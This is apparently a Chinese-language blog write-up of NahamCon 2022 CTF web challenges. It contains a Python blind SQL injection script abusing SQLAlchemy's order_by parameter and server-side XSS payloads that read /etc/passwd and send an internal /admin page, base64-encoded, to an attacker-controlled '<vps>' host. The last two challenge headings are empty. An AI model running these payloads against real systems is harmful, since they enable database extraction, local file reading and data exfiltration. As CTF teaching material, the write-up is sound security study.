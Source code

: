 ```yaml
---
uuid: 83dd6211-35e5-bad3-5a36-98c844d97575
title: nahamcon
date: 2022-05-03 12:36:29
tags:
       - 赛后复盘
       - CTF
categories: 
       - [赛后复盘]
       - [CTF]
---
```


一个外国比赛记录一下web题目

<!--more-->

# Flaskmetal Alchemist

![](https://z4a.net/images/2022/05/03/image.png)

在附件里看到有版本号![](https://z4a.net/images/2022/05/03/image3dac2e8ebba12bd0.png)

同时发现flag在Flag里面![](https://z4a.net/images/2022/05/03/imagea6ad23a2f8b33341.png)

![](https://z4a.net/images/2022/05/03/imagecdf69a9ead10c0fa.png)

在这上面看到like与两个%包裹用户输入的数据，这里无法进行注入，往下看到有个order_by这里可控存在注入。

[SQLAlchemy 到 1.2.17 和 1.3.x 到 1.3.0b2 允许通过 order_by 参数进行 SQL 注入](https://github.com/sqlalchemy/sqlalchemy/issues/4481)

![](https://z4a.net/images/2022/05/03/imagee9f9bcc3db4b4fd3.png)

```
import requests
import time

s='abcdefghijklmnopqrstuvwxyz1234567890{}_-[]()!~QWERTYUIOPASDFGHJKLZXCVBNM'
url = "http://challenge.nahamcon.com:30678/"

flag=''
for i in range(1,40):
 for a in s:
    payload="case when(substr((select flag from Flag),{},1)='{}') then randomblob(1) else 2 end limit 1,1".format(i,a)
    data = {"search":"Li","order":payload}
    r=requests.post(url,data=data)
    if "Beryllium" not in r.text:
        flag+=a
        print(flag)
        break
    else:
        pass
```

![](https://z4a.net/images/2022/05/03/image28aa6b56f2c568a3.png)

# Hacker Ts

![](https://z4a.net/images/2022/05/03/image15dc18bbcd2ae3be.png)

![](https://z4a.net/images/2022/05/03/imagecfa6cf8b13e1bc37.png)

没有注入，插了一下发现应该是考察的xss，同时有admin，但是打不开![](https://z4a.net/images/2022/05/03/image625c2a9f5521b2a0.png)

你输入啥就会在衣服上打印啥![](https://z4a.net/images/2022/05/03/image41c8457a984f5765.png)

尝试了一般的恶意代码但是没啥用。

这个文章给了灵感，[服务器端 XSS（动态 PDF）](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)，存在一个服务端xss，利用本地文件读取

```
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```
**payload**

```
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)
};
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

执行报错![](https://z4a.net/images/2022/05/03/imagead98f5c414eaed6b.png)

使用了 wkhtmltoimage,查询得到wkhtmltopdf,在0.12.6版本默认禁止读取本地文件，

不过还可以利用 **XMLHttpRequest** 去让服务器访问/admin，然后将访问的内容返回到vps上

```
<script>
x=new XMLHttpRequest();
x.open("GET","http://localhost:5000/admin");
x.onload=function(){var i = new Image(); i.src = "https://<vps>/?c=" + btoa(this.responseText)};
x.send();
</script>
```

把payload urlencode之后再用,然后正常情况下应该在vps下监听到，但是竟然直接回显了

![](https://z4a.net/images/2022/05/03/image82b45dec01c62465.png)

![](https://z4a.net/images/2022/05/03/imageb373dfcd7a1e9431.png)

flag{461e2452088eb397b6138a5934af6231}

涉及知识点

[XMLHttpRequestEventTarget.onload](https://developer.mozilla.org/zh-CN/docs/conflicting/Web/API/XMLHttpRequest/load_event)

# Deafcon

![](https://z4a.net/images/2022/05/03/imagea69c165a2d2616d1.png)

# Two For One
